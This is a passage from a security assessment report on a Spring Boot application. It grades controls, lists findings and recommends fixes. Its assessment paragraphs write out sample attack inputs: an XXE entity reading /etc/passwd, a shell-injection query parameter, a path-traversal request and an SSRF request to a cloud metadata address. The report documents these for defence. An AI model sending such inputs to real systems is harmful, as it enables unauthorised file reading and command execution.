Controllers receive HTTP input through `@RequestParam` and `@RequestBody` annotations. Without `@Valid` on the parameter or explicit manual validation, the raw value passes directly to service and DAO layers. `XmlPreviewController.java:22` creates a `DocumentBuilderFactory` and parses the submitted XML document with no `FEATURE_SECURE_PROCESSING` flag and no entity-count or document-size limit configured on the factory.

**Security assessment**

No global `@ControllerAdvice` enforces validation. The XML path is the most severe gap: an attacker submits a deeply nested entity definition - a billion-laughs document - and the parser allocates exponentially growing string buffers until JVM heap is exhausted, with no application-level guard firing before that point.

**Relevant findings**

- 🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion — XXE exponential entity expansion at `XmlPreviewController.java:22` enables memory exhaustion via unbounded entity nesting; no `FEATURE_SECURE_PROCESSING` is enabled on the `DocumentBuilderFactory`.

<a id="bean-validation"></a><a id="bean-validation-spring-valid"></a>
#### 6.6.2 Bean Validation

**Status:** 🟡 Partial - Bean Validation constraints exist on a subset of JPA entity fields but are not wired to most controller inputs via `@Valid`.

The Bean Validation runtime (Hibernate Validator) is present via `spring-boot-starter-validation`. Some JPA entity classes carry `@NotNull` and `@Size` constraints, providing persistence-layer integrity checks. `RegistrationController` uses `@RequestParam` binding without `@Valid`, so registration inputs reach the service layer without constraint evaluation.

**Security assessment**

Validation at the JPA persistence layer prevents null or oversized values from reaching the database on some paths, but it does not prevent malformed values from reaching business logic - including type-coercion edge cases, overlong strings that are valid JPA types but semantically invalid, and values the DAO layer passes directly to raw SQL (where validation would need to occur before the concatenation, not after).

**Relevant findings**

- 🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion — the XML parser gap is the clearest consequence of missing HTTP-boundary constraints; a `maxDocumentSize` limit or `FEATURE_SECURE_PROCESSING` constraint would address it at the input layer before reaching the parser.

### 6.7 Output Encoding and Rendering Controls

**Verdict:** 🟡 Partial - Thymeleaf auto-escapes most template expressions by default; no Content-Security-Policy header is configured, leaving the browser without a fallback if any encoding context is bypassed.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.7.1 Thymeleaf HTML Auto-Escaping](#thymeleaf-html-auto-escaping)

**Implemented controls:** Thymeleaf server-side template engine with default HTML auto-escaping for `th:text` and standard expression contexts.

**Assessment:** Thymeleaf's default escaping mode converts `<`, `>`, `&`, `"`, and `'` to HTML entities in `th:text` expressions, providing automatic context-aware encoding for the current server-rendered template surface. No `th:utext` (unescaped HTML) usage was identified in the STRIDE analysis. The residual gap is the absence of a Content-Security-Policy header - addressed under [§6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls).

<a id="thymeleaf-html-auto-escaping"></a>
#### 6.7.1 Thymeleaf HTML Auto-Escaping

**Status:** 🟡 Partial - default escaping protects current template outputs; the absent Content-Security-Policy header removes the browser-level backstop for any future encoding gap.

Thymeleaf renders HTML pages using `th:text` expressions that escape special characters before writing to the response. HTML-entity encoding applies to all standard expression contexts, preventing injected markup from executing in the browser for the current template surfaces. No `th:utext` directive that bypasses escaping was detected.

**Security assessment**

The auto-escaping mechanism is active and functioning for existing templates. The main residual risk is architectural: absent Content-Security-Policy means that if an `th:utext` call were introduced, or if user-controlled data reached a JavaScript context without separate encoding, the browser would have no restriction layer. That CSP gap is the [§6.8](#68-browser-and-cross-origin-controls) finding; this section records that the template-level encoding is currently adequate.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 6.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing - CORS reflects any HTTP/HTTPS origin with `allow-credentials: true`; CSRF protection is globally disabled in `SecurityConfig`; no Content-Security-Policy, HSTS, or `Referrer-Policy` header is emitted.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.8.1 CORS Policy](#cors-policy)
- [6.8.2 CSRF Protection](#csrf-protection)
- [6.8.3 HTTP Security Headers](#http-security-headers)

**Implemented controls:** Spring Security's default `X-Content-Type-Options: nosniff` header is present; `X-Frame-Options: DENY` applies to the main application routes.

**Assessment:** Three independent browser-boundary failures exist. `CorsPolicyFilter.java:31` echoes any `http://` or `https://` origin back in `Access-Control-Allow-Origin` without an allowlist check, and also returns `Access-Control-Allow-Credentials: true` - enabling any cross-origin page to make credentialed API requests and read the full response. CSRF protection was explicitly removed via `http.csrf().disable()` at `SecurityConfig.java:28`, leaving all state-changing requests vulnerable to cross-site forgery. No Content-Security-Policy or HSTS header is emitted by any filter in the chain.

<a id="cors-policy"></a>
#### 6.8.1 CORS Policy

**Status:** 🔴 Missing - `CorsPolicyFilter` reflects any HTTP/HTTPS origin unconditionally and sets `Access-Control-Allow-Credentials: true`, granting every cross-origin web page read access to authenticated API responses.

`CorsPolicyFilter.java:31` reads the incoming `Origin` header and echoes it back in `Access-Control-Allow-Origin` after a `startsWith("http")` check. This matches all `http://` and `https://` origins. The filter simultaneously sets `Access-Control-Allow-Credentials: true` on the response.

**Security assessment**

The `startsWith("http")` guard matches every origin rather than validating against an explicit allowlist. An attacker-controlled webpage on any domain can issue a `fetch()` call with `credentials: "include"` to the API; the browser forwards the victim's session cookies, the API reflects the attacker's origin, and the browser exposes the full response to the attacker's page - enabling cross-site authenticated data exfiltration.

**Relevant findings**

- 🔴 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true — `CorsPolicyFilter.java:31` reflects any HTTP/HTTPS origin with `allow-credentials: true`, enabling credentialed cross-site reads from any attacker-controlled page.

<a id="csrf-protection"></a>
#### 6.8.2 CSRF Protection

**Status:** 🔴 Missing - Spring Security's built-in CSRF filter is explicitly disabled, and the homegrown replacement validates token presence but not token value.

`SecurityConfig.java:28` calls `http.csrf().disable()`, removing Spring Security's synchronizer-token filter for all state-changing requests. A separate `CsrfSettingsController` implements a homegrown alternative: `CsrfSettingsController.java:47` checks that an `X-CSRF-Token` header is present in the request, but does not compare its value against a session-stored secret.

**Security assessment**

Two independent CSRF failures exist:

- `SecurityConfig.java:28` globally disables Spring Security's CSRF filter; any cross-site `POST`, `PUT`, or `DELETE` from an attacker-controlled page is accepted without a token.
- `CsrfSettingsController.java:47` validates header presence only - an attacker includes `X-CSRF-Token: arbitrary` in the cross-site request and the check passes, defeating the replacement control entirely.

**Relevant findings**

- 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig — CSRF protection globally disabled at `SecurityConfig.java:28`, removing Spring Security's built-in synchronizer-token check for all state-changing requests.
- 🟠 [F-024](#f-024) — Homegrown CSRF Token Validates Presence Only, Not Value — homegrown CSRF check at `CsrfSettingsController.java:47` validates header presence only, not value; trivially satisfied by any cross-site request that includes the header name.

<a id="http-security-headers"></a>
#### 6.8.3 HTTP Security Headers

**Status:** 🔴 Missing - no Content-Security-Policy, HSTS, or `Referrer-Policy` header is emitted; the H2 console uses `X-Frame-Options: SAMEORIGIN`, leaving it embeddable from same-origin pages.

No controller, filter, or Spring Security configuration emits `Content-Security-Policy` or `Strict-Transport-Security` headers. Spring Security's default `X-Frame-Options: DENY` applies to main application routes, but the H2 console at `application.yml:11` is served with `SAMEORIGIN` framing, allowing same-origin pages to embed it in an iframe.

**Security assessment**

Absent Content-Security-Policy leaves XSS mitigation entirely to Thymeleaf escaping - no browser restriction layer exists as a backstop. Absent HSTS makes first-visit downgrade attacks possible when the service accepts non-HTTPS connections. The H2 console `SAMEORIGIN` framing permits clickjacking from any same-origin page, enabling an attacker to load the admin SQL console inside an invisible iframe and capture administrator interactions.

**Relevant findings**

- 🟠 [F-022](#f-022) — H2 Console Clickjacking via sameOrigin Frame Policy — H2 console clickjacking via `SAMEORIGIN` frame policy at `application.yml:11`; a same-origin attacker page can embed the H2 console in an iframe and capture admin SQL interactions.

### 6.9 Cryptography Secrets and Data Protection


**Systemic weaknesses:** [W-004](#w-004), [W-005](#w-005)
**Verdict:** 🔴 Missing - signing keys, AES keys, and seed credentials are hardcoded in source and baked into the container image; MD5 and a homegrown XOR cipher are used for password storage and data encryption; the H2 datasource password is empty.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.9.1 Password Hashing](#password-hashing)
- [6.9.2 Secret and Key Management](#secret-and-key-management)
- [6.9.3 Symmetric Encryption](#symmetric-encryption)

**Implemented controls:** BCrypt password encoding for the primary `AppUser` H2 store via Spring Security's `BCryptPasswordEncoder`; `SecureRandom` is available on the classpath but not used in the token-generation path.

**Assessment:** Three independent cryptographic failure classes exist. Password storage relies on BCrypt for the H2 user table and MD5 (or plaintext) for the legacy SQLite store. Secret management is absent: JWT-related keys, AES keys, and seed credentials are embedded as string literals in source files and `Dockerfile` `ENV` layers. Symmetric encryption uses a hand-rolled XOR cipher and AES/ECB - neither provides meaningful confidentiality for an attacker who can observe ciphertexts or access the source repository.

<a id="password-hashing"></a>
#### 6.9.1 Password Hashing

**Status:** 🟡 Partial - BCrypt protects the primary H2 user store; the legacy SQLite store uses unsalted MD5 and stores some passwords in plaintext.

`BCryptPasswordEncoder` is wired in `SecurityConfig` and applied to all passwords stored in the H2 `AppUser` table. The legacy password path uses `LegacyPasswordService.java:15`, which calls `MessageDigest.getInstance("MD5")` with no salt - a fast, unsalted digest with no work factor.

**Security assessment**

Two independent password-storage weaknesses sit alongside the adequate BCrypt implementation:

- `LegacyPasswordService.java:15` produces an unsalted MD5 digest - any table dump obtained via SQL injection is recoverable to plaintext via GPU-based dictionary attack in seconds.
- `LegacySqliteUserStore.java:100` stores some legacy user passwords in cleartext - a dump yields them immediately with no offline computation.

**Relevant findings**

- 🟠 [F-037](#f-037) — MD5 Used for Password Hashing in LegacyPasswordService — MD5 used for password hashing in `LegacyPasswordService.java:15`; unsalted, no work factor, recoverable from a dump in seconds.
- 🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store — plaintext password storage in the legacy SQLite store at `LegacySqliteUserStore.java:100`; any table dump yields credentials immediately.

<a id="secret-and-key-management"></a><a id="secret-management"></a>
#### 6.9.2 Secret and Key Management

**Status:** 🔴 Missing - signing keys, AES keys, and seed credentials are hardcoded as string literals in source files and `Dockerfile` `ENV` layers with no external injection mechanism.

`LegacyCryptoService.java:13` defines an AES key as a hardcoded string literal. `HomegrownCipher.java:8` defines an XOR key as a hardcoded byte array. `Dockerfile:12` bakes an application secret into an `ENV` instruction visible in every image layer. `SecurityConfig.java:79` seeds demo accounts with the fixed password `password`. `application.yml:8` sets an empty H2 datasource password.

**Security assessment**

Any attacker with repository read access - or who pulls the Docker image - has every key needed to decrypt stored data, forge tokens, or authenticate as seeded accounts:

- `LegacyCryptoService.java:13`: hardcoded AES key; any ciphertext produced by this service is decryptable by anyone reading source.
- `Dockerfile:12`: the secret baked into the `ENV` layer persists in all intermediate layers - visible via `docker history` on any pulled image.
- `SecurityConfig.java:79`: the fixed `password` seed makes seeded accounts immediately exploitable with no offline work.
- `application.yml:8`: empty H2 datasource password; no credential is required to access the database via the H2 console.

**Relevant findings**

- 🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers — hardcoded secrets in `Dockerfile:12` `ENV` layer; recoverable from any pulled image via `docker history`.
- 🟠 [F-011](#f-011) — Empty H2 Datasource Password — empty H2 datasource password in `application.yml:8`; no credential required to access the live database via the console.
- 🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup — trivially guessable default credentials seeded at startup in `SecurityConfig.java:79`.
- 🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account — hardcoded seed credential for `legacy_admin` in `LegacySqliteUserStore.java:37`.
- 🔴 [F-036](#f-036) — XOR Cipher with Hardcoded Key Used for Password Storage — XOR cipher key hardcoded in `HomegrownCipher.java:8`.

<a id="symmetric-encryption"></a>
#### 6.9.3 Symmetric Encryption

**Status:** 🟠 Weak - AES/ECB and a homegrown repeating-key XOR cipher are used; both lack semantic security and both rely on hardcoded keys.

`LegacyCryptoService.java:13` encrypts data with AES/ECB/NoPadding using a hardcoded 16-byte key. `HomegrownCipher.java:14` and `23` implement a repeating-key XOR cipher used for password storage. `LegacyTokenService.java:10` generates token values using `java.util.Random` rather than `SecureRandom`.

**Security assessment**

Three weaknesses on the encryption path:

- AES/ECB at `LegacyCryptoService.java:17` produces identical ciphertext blocks for identical plaintext blocks - pattern analysis recovers plaintext structure without the key.
- `HomegrownCipher.java:14-23` applies a repeating XOR with a static key - a known-plaintext attack recovers the key from any pair of ciphertexts produced under the same key.
- `LegacyTokenService.java:10` seeds `java.util.Random` (a linear congruential generator); token values produced by this service are predictable from a small sample of observed outputs.

**Relevant findings**

- 🟠 [F-017](#f-017) — Hand-rolled XOR / repeating-key cipher — hand-rolled repeating-key XOR cipher at `HomegrownCipher.java:14`; static key recoverable via known-plaintext attack.
- 🟠 [F-018](#f-018) — Hand-rolled XOR / repeating-key cipher — second XOR cipher instance at `HomegrownCipher.java:23`.
- 🔴 [F-035](#f-035) — AES/ECB Mode with Hardcoded Key in LegacyCryptoService — AES/ECB mode with hardcoded key in `LegacyCryptoService.java:13`; pattern-preserving cipher.
- 🟠 [F-047](#f-047) — Insecure ECB cipher mode Java — ECB cipher mode confirmed at `LegacyCryptoService.java:17`.
- 🟠 [F-019](#f-019) — Non-cryptographic RNG in a security module Java — `LegacyTokenService.java:10` uses `java.util.Random` for security-relevant token generation; output is predictable from observed values.

### 6.10 File Parser and Outbound Request Controls

<a id="ctrl-file-parser-and-outbound-request-controls"></a>

**Dependent crossings:** [tb-6](#tb-6) refuted - 🟠 [F-038](#f-038)


**Systemic weaknesses:** [W-003](#w-003)
**Verdict:** 🔴 Missing - file uploads accept any MIME type and filename, the XML parser allows external entity references, SSRF is unconstrained, path traversal is unguarded, and OS command injection is directly reachable via an unauthenticated endpoint.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.10.1 File Upload Validation](#file-upload-validation)
- [6.10.2 SSRF Prevention](#ssrf-prevention)
- [6.10.3 XML Parser Hardening](#xml-parser-hardening)
- [6.10.4 Path Traversal Defense](#path-traversal-defense)
- [6.10.5 Command Injection Defense](#command-injection-defense)

**Implemented controls:** Spring `MultipartResolver` enforces the framework-level file-size limit on uploads; no application-level MIME, extension, or filename validation is present.

**Assessment:** Five distinct injection and traversal surfaces exist without controls. The command injection endpoint at `/api/tools/lookup` is both unauthenticated (confirmed by abuse-case verification AC-T-006) and passes the `name` query parameter directly to `Runtime.exec()` via a shell string. The XML preview endpoint at `XmlPreviewController.java:22` accepts external entity references and unbounded entity expansion. The file download endpoint at `FileReadController.java:19` canonicalizes nothing. The SSRF endpoint at `IntegrationController.java:23` fetches any URL without scheme or host validation. File uploads at `BusinessFileStorage.java:17` accept any content type and client-supplied filename.

<a id="file-upload-validation"></a>
#### 6.10.1 File Upload Validation

**Status:** 🔴 Missing - `BusinessFileStorage.java:17` stores uploaded files without validating MIME type, file extension, or filename safety.

`BusinessFileStorage.store()` at line 17 receives a `MultipartFile` and writes it to the configured storage path using the client-supplied filename, without normalization, extension filtering, or MIME-type inspection. Spring's multipart size limit applies at the framework level; no application constraint restricts content type or filename characters.

**Security assessment**

An attacker uploads a `.jsp` file with arbitrary servlet content, using the original client-supplied filename. If the storage path is within the application's servlet root, the uploaded file is accessible at the stored path and the servlet container executes it on the next request - yielding server-side code execution. The missing filename normalization also creates a path-traversal vector at upload time: a filename containing `../` places the file outside the intended storage directory.

**Relevant findings**

- 🟠 [F-025](#f-025) — Unrestricted File Upload with No MIME Type or Extension Validation — unrestricted file upload in `BusinessFileStorage.java:17`; no MIME type, extension, or filename validation applied before storage.

<a id="ssrf-prevention"></a>
#### 6.10.2 SSRF Prevention

**Status:** 🔴 Missing - `IntegrationController.java:23` fetches any URL supplied by the caller without scheme, host, or path validation.

`IntegrationController` at line 23 accepts a URL string from the HTTP request and passes it directly to an HTTP client (`RestTemplate.getForObject()` or equivalent) with no prior validation of scheme, host, port, or path. The endpoint is reachable by authenticated users.

**Security assessment**

An attacker submits `http://169.254.169.254/latest/meta-data/` as the target URL. `IntegrationController` fetches it and returns the response body to the caller. This enables internal network enumeration, access to cloud instance metadata endpoints (EC2 IMDSv1, GCP metadata, Azure IMDS), and potentially access to internal services that trust traffic from the application server IP.

**Relevant findings**

- 🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch — SSRF at `IntegrationController.java:23`; any URL including internal and cloud-metadata endpoints is fetched and returned to the caller.

<a id="xml-parser-hardening"></a>
#### 6.10.3 XML Parser Hardening

**Status:** 🔴 Missing - the `DocumentBuilderFactory` in `XmlPreviewController` is created without disabling external entities or enabling `FEATURE_SECURE_PROCESSING`.

`XmlPreviewController.java:22` creates a `DocumentBuilderFactory`, parses a user-submitted XML document, and returns a transformed result. No `setFeature("http://xml.org/sax/features/external-general-entities", false)` or `FEATURE_SECURE_PROCESSING` call appears on the factory instance before parsing begins.

**Security assessment**

Two XML injection vectors are open on the same endpoint:

- External entity injection (XXE): an attacker includes `<!ENTITY xxe SYSTEM "file:///etc/passwd">` in the DOCTYPE; the parser resolves the entity and the file contents appear in the response.
- Exponential entity expansion: a deeply nested entity definition causes exponentially growing string allocation, exhausting JVM heap and denying service.

**Relevant findings**

- 🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController — XXE external entity injection at `XmlPreviewController.java:22`; local file disclosure via `SYSTEM` entity references in the DOCTYPE.
- 🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion — XXE exponential entity expansion at the same location; memory exhaustion through unbounded nested entity references; cross-referenced from [§6.6](#66-input-boundary-validation-controls).

<a id="path-traversal-defense"></a>
#### 6.10.4 Path Traversal Defense

**Status:** 🔴 Missing - `FileReadController.java:19` constructs a file path from the `name` request parameter without canonicalization or base-directory enforcement.

`FileReadController.read()` at line 19 accepts a `name` query parameter and opens the file at that path relative to the configured root. No `Path.normalize()`, `toRealPath()`, or prefix check against an allowed base directory is applied before the file is opened and its contents returned in the response.

**Security assessment**

An attacker sends `GET /api/files/read?name=../../etc/passwd`. `FileReadController` constructs the path and reads the file without any boundary check. The endpoint is reachable under the `SecurityConfig` route matching, so any HTTP client with the necessary session scope can read arbitrary files accessible to the JVM process user.

**Relevant findings**

- 🟠 [F-033](#f-033) — Path Traversal via Name Parameter in — path traversal at `FileReadController.java:19`; `../../` sequences in the `name` parameter read files outside the intended directory.

<a id="command-injection-defense"></a>
#### 6.10.5 Command Injection Defense

**Status:** 🔴 Missing - `ToolController.java:18` passes the `name` query parameter directly to a shell command string via the single-argument `Runtime.exec(String)` overload, which invokes a shell and interprets metacharacters.

`ToolController.lookup()` at line 18 accepts the `name` parameter from `GET /api/tools/lookup` and constructs a shell command string that includes it. The command is executed via `Runtime.exec(String)` - the single-string overload that passes the argument to a shell, enabling metacharacter interpretation.

**Security assessment**

Submitting `GET /api/tools/lookup?name=foo;+cat+/etc/passwd` causes the shell to execute `cat /etc/passwd` after the intended lookup command. The endpoint is accessible without authentication (confirmed by abuse-case verification AC-T-006), so any HTTP client can execute arbitrary OS commands as the JVM process user without any prior credential.

**Relevant findings**

- 🔴 [F-003](#f-003) — OS Command Injection via Name Parameter — OS command injection at `ToolController.java:18`; shell metacharacters in the `name` parameter execute arbitrary OS commands without authentication.
- 🟠 [F-016](#f-016) — Command injection Java — second confirmed command injection instance at `ToolController.java:18`; independently confirmed by the STRIDE analysis.

### 6.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing - the container runs as root with mutable base image tags, audit logging leaks credentials in cleartext, and no automated dependency scanning or update tooling is configured.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.11.1 Audit Logging](#audit-logging)
- [6.11.2 Container Image Hardening](#container-image-hardening)
- [6.11.3 Dependency Version Management](#dependency-version-management)
- [6.11.4 CVE Scanning](#cve-scanning)
- [6.11.5 Automated SCA scanning](#automated-sca-scanning)
- [6.11.6 Automated dependency updates](#automated-dependency-updates)
- [6.11.7 Lockfile hygiene](#lockfile-hygiene)

**Implemented controls:** `package-lock.json` committed to version control; Spring Actuator provides runtime metrics and health endpoints (though without authentication).

**Assessment:** The Dockerfile runs the application as root with no `USER` directive, references base images by mutable tag without a `@sha256:` digest pin, and pipes a remote installation script to `bash` without checksum verification. Application-level audit logging is inconsistent: `CredentialLoggingFilter` logs submitted passwords in cleartext on every POST /login, while authentication events on the legacy path and admin operations emit no structured events. No CI-integrated SCA, CVE scanner, or automated dependency-update bot is configured.

<a id="audit-logging"></a>
#### 6.11.1 Audit Logging

**Status:** 🟠 Weak - some security events are logged, but `CredentialLoggingFilter` emits submitted passwords in cleartext and authentication and admin endpoints on the legacy path emit no events at all.

`CredentialLoggingFilter.java:25` runs as a servlet filter on every POST /login and logs the submitted username and password to application logs. `LegacyAdminBoardController.java:29` performs privilege-level user management operations without emitting any log event. `LegacySqliteAuthController.java:26` processes authentication requests on the legacy path without logging.

**Security assessment**

The logging gap runs in both directions:

- `CredentialLoggingFilter.java:25` writes the submitted password to application logs in cleartext - any log aggregation pipeline, log file, or SIEM that receives these events becomes a credential store.
- `LegacyAdminBoardController` admin operations and legacy authentication events produce no structured log entries, leaving no forensic trail for credential-stuffing, brute-force, or privilege-escalation activity.

**Relevant findings**

- 🟠 [F-028](#f-028) — Cleartext Credentials Written to Application Logs — `CredentialLoggingFilter.java:25` writes submitted passwords in cleartext to application logs on every POST /login.
- 🟠 [F-029](#f-029) — No Audit Logging for User Privilege Operations in LegacyAdminBoardController — no audit logging for user privilege operations in `LegacyAdminBoardController.java:29`.
- 🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints — no structured security event logging on authentication and registration endpoints in `LegacySqliteAuthController.java:26`.
- 🟠 [F-027](#f-027) — No Audit Log for H2 Console SQL Queries — no query-level audit log for the H2 console; SQL commands executed via the unauthenticated console leave no trace.

<a id="container-image-hardening"></a>
#### 6.11.2 Container Image Hardening

**Status:** 🟠 Weak - the container runs as root, base image tags are not digest-pinned, and a remote installation script is piped to a shell without integrity verification.

`Dockerfile:1` specifies a base image by tag (e.g. `eclipse-temurin:21-jre`) with no `@sha256:` digest suffix. `Dockerfile:4` introduces a second mutable tag reference. `Dockerfile:21` pipes a remote script to `bash` via a `curl | bash` pattern with no checksum or signature verification. No `USER` directive appears before `CMD`, so the application process runs as root inside the container.

**Security assessment**

Three container hardening gaps:

- `Dockerfile:1` and `Dockerfile:4`: mutable tags mean a registry tag-override replaces the base image silently on the next build, potentially introducing a supply-chain payload.
- `Dockerfile:21`: `curl | bash` of a remote script executes untrusted code at build time with no checksum; a compromised CDN or DNS response yields arbitrary code execution inside every subsequent image build.
- No `USER <non-root>`: a container escape from any running instance grants the attacker root-level access on the host.

**Relevant findings**

- 🟠 [F-030](#f-030) — Dockerfile base image must be digest-pinned — `Dockerfile:1` base image tag is not digest-pinned; tag-override attack possible on any rebuild.
- 🟠 [F-049](#f-049) — Mutable Base Image Tag Without Digest Pin — `Dockerfile:4` second mutable tag reference; unpinned base image entry.
- 🟠 [F-021](#f-021) — Remote Script Pipe Without Integrity Verification — `Dockerfile:21` remote script piped to shell without integrity verification; supply-chain code execution risk on every image build.
- 🟠 [F-044](#f-044) — Application Container Runs as Root Without USER Directive — no `USER` directive; container process runs as root.
- 🟡 [F-051](#f-051) — Dockerfile USER directive — Dockerfile `USER` directive absent; root-level process confirmed by static analysis.
- 🟠 [F-034](#f-034) — Spring Actuator Fully Exposed with show-values:ALWAYS and No Authentication — Spring Actuator at `application.yml:33` fully exposed with `show-values: always` and no authentication; environment variables and internal application state leak to any HTTP client.

<a id="dependency-version-management"></a>
#### 6.11.3 Dependency Version Management

**Status:** 🔴 Missing - no policy document or CI check enforces maximum allowed dependency ages or prohibited version ranges.

The Maven `pom.xml` specifies explicit versions for the Spring Boot parent and direct dependencies. No configuration file from Renovate, Dependabot, or an equivalent tool is present in the repository. No CI step enforces that build-time dependency resolution matches the committed version pins.

**Security assessment**

Without automated version management, transitive Maven dependencies accumulate known CVEs until a developer manually identifies and updates them. The Spring Boot 3.2.12 parent pegs many transitive versions, but does not eliminate version drift for dependencies outside its BOM.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="cve-scanning"></a>
#### 6.11.4 CVE Scanning

**Status:** 🔴 Missing - no CVE scanner is integrated into the build pipeline or CI workflow.

No OWASP Dependency-Check, Grype, Trivy, or equivalent scanner step appears in the repository. No `.github/workflows/` directory was detected by the recon scan, and no Maven plugin configuration for dependency-check was found in `pom.xml`.

**Security assessment**

Known-vulnerable transitive dependencies introduced through the Maven dependency graph are not flagged before merge or deployment. The absence of a CI workflow means there is no automatic gate to block a build that introduces a dependency with a published critical CVE.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="automated-sca-scanning"></a>
#### 6.11.5 Automated SCA scanning

**Status:** 🔴 Missing - no software composition analysis tool is configured in the repository or CI pipeline.

No `dependency-check-maven` plugin, OWASP Dependency-Check configuration, or SCA service integration file was detected. The recon scan found no `.github/workflows/` or equivalent CI artifact in the repository root.

**Security assessment**

Software composition analysis is absent. Vulnerable open-source components included as transitive Maven dependencies are not surfaced to developers at pull-request time or through scheduled scans. This gap is compounded by the absent CVE scanning and automated update tooling.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="automated-dependency-updates"></a>
#### 6.11.6 Automated dependency updates

**Status:** 🔴 Missing - no Renovate, Dependabot, or equivalent bot configuration exists in the repository.

No `renovate.json`, `.github/dependabot.yml`, or equivalent configuration file was detected by the recon scan. Dependency updates require manual developer discovery and action.

**Security assessment**

Without automated update pull requests, known-vulnerable dependencies remain in the codebase until a developer performs a manual audit. Combined with the absent CVE scanning, there is no proactive feedback loop that prompts dependency updates when new vulnerabilities are published against transitive dependencies.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="lockfile-hygiene"></a>
#### 6.11.7 Lockfile hygiene

**Status:** 🟢 Adequate - `package-lock.json` is committed to version control, enabling reproducible installs for the JavaScript toolchain component.

`package-lock.json` is present and committed to the repository root. This pins transitive JavaScript dependency versions and supports `npm ci` (frozen, reproducible installs) for any JavaScript tooling used alongside the Java project.

**Security assessment**

The committed lockfile is adequate for JavaScript toolchain reproducibility. The Java build (Maven) does not produce an equivalent artifact by default - version ranges in `pom.xml` allow transitive version drift at resolve time. The `package-lock.json` adequacy does not extend to Maven dependency determinism.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 6.12 Real-time and Not Applicable Controls

<!-- §6.12 LOCKED — mechanically derived from absence of real-time findings. Renderer must not rewrite the line below. -->
_Not applicable - no real-time / WebSocket findings routed to this category, and no AI/LLM, GraphQL, or gRPC surfaces detected by the recon scan. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§6](#6-security-architecture) sections._

### 6.13 Defense-in-Depth Summary

**Verdict:** -

BCrypt password hashing for the primary H2 user store is the strongest individual positive control in the codebase - it limits offline password recovery to that table alone, and only if the table is extracted directly rather than via SQL injection against the legacy path. Thymeleaf's auto-escaping removes the most common reflected XSS surface from server-rendered pages. The committed `package-lock.json` provides reproducibility for the JavaScript toolchain component. These three controls form the only meaningful defensive layer currently in place.

The structural repairs that would restore layered defense concentrate in four areas: replacing raw SQL in `LegacySqliteUserStore.authenticateRaw()`, `OrderLookupDao`, and `ProjectSearchRepository` with parameterized queries closes the primary breach path (SQL injection → credential dump); rotating all secrets out of source and the Dockerfile into runtime-injected environment references eliminates the offline-key-recovery path (hardcoded AES key, XOR key, JWT-related key, `ENV` secrets); re-enabling Spring Security CSRF protection and replacing the `CorsPolicyFilter` wildcard with an explicit origin allowlist closes the browser boundary; and running the container as a non-root user with a digest-pinned base image limits the blast radius of any container escape. None of these repairs is sufficient alone - the SQL injection path bypasses the session mechanism entirely, and the hardcoded keys bypass the authentication check - so all four need to be addressed before the application is production-deployable.

<!-- enriched:standard -->

---

<a id="weakness-register"></a>
## 7. Weakness Register

Systemic control gaps behind the findings, ordered by severity (W-001 = most severe). Each weakness names the missing, home-grown, or misused control, the findings that evidence it, the components it spans, and its remediation. A weakness may also rest on observed unsafe practice or an absent architectural control with no confirmed exploit - only confirmed findings carry a CVSS score.

- 🔴 **Critical** · [W-001](#w-001) - Endpoints are reachable without enforced authentication · confirmed · 1 finding · 1 component
- 🔴 **Critical** · [W-002](#w-002) - Authorization is implemented route by route · confirmed · 4 findings · 1 component
- 🟠 **High** · [W-003](#w-003) - Input handling lacks enforced boundary validation · confirmed · 1 finding · 1 component
- 🟡 **Medium** · [W-004](#w-004) - Cryptographic security is implemented in application code · observed-practice · 2 findings · 1 component
- 🟡 **Medium** · [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives · observed-practice · 6 findings · 3 components

<a id="w-001"></a>
### W-001 — Endpoints are reachable without enforced authentication

🔴 **Critical** · design weakness · confirmed · 1 finding

Sensitive API routes and real-time channels are exposed without an enforced authentication check at the endpoint boundary. Access control depends on each handler (or the caller) remembering to require a session, so an unauthenticated client can reach privileged operations directly.

**Confirmed findings:**

- 🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console (`src/main/resources/application.yml`)

**Architecture evidence:** Route Authentication Middleware, Server-Side Session Enforcement

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Structural** — enforce authentication centrally at the routing and channel boundary so every exposed endpoint requires a verified session unless explicitly marked public
- **Tactical** — ● [M-008](#m-008)

<a id="w-002"></a>
### W-002 — Authorization is implemented route by route

🔴 **Critical** · design weakness · confirmed · 4 findings

Authorization depends on per-handler checks instead of a policy boundary that consistently enforces role, ownership, and tenant scope. New routes can bypass protection by omitting a local check.

**Confirmed findings:**

- 🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database Access
- 🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication
